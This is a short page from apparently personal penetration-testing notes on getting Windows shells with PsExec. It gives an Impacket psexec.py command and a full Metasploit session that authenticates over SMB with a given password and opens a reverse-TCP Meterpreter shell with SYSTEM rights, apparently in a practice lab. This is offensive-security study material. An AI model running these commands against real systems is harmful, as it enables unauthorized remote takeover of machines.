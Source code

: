 ```yaml
---
layout: default
title: PsExec
parent: Shells
nav_order: 4
---
```


# PsExec

---

## PsExec from Impacket

[Impacket GitHub Repo for psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

```bash
psexec.py Administrator@10.2.24.221 cmd.exe

Password:
```

![psexec](../../../assets/images/shells/psexec.png)

## PsExec with Metasploit Framework

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ msfconsole -q
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.4.22.77
RHOSTS => 10.4.22.77
msf6 exploit(windows/smb/psexec) > set SMBUser administrator
SMBUser => administrator
msf6 exploit(windows/smb/psexec) > set SMBPass password1
SMBPass => password1
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.4.2:4444
[*] 10.4.22.77:445 - Connecting to the server...
[*] 10.4.22.77:445 - Authenticating to 10.4.22.77:445 as user 'administrator'...
[*] 10.4.22.77:445 - Selecting PowerShell target
[*] 10.4.22.77:445 - Executing the payload...
[+] 10.4.22.77:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.22.77
[*] Meterpreter session 1 opened (10.10.4.2:4444 -> 10.4.22.77:49365 ) at 2023-11-30 08:53:44 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : SAMPLE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows

```
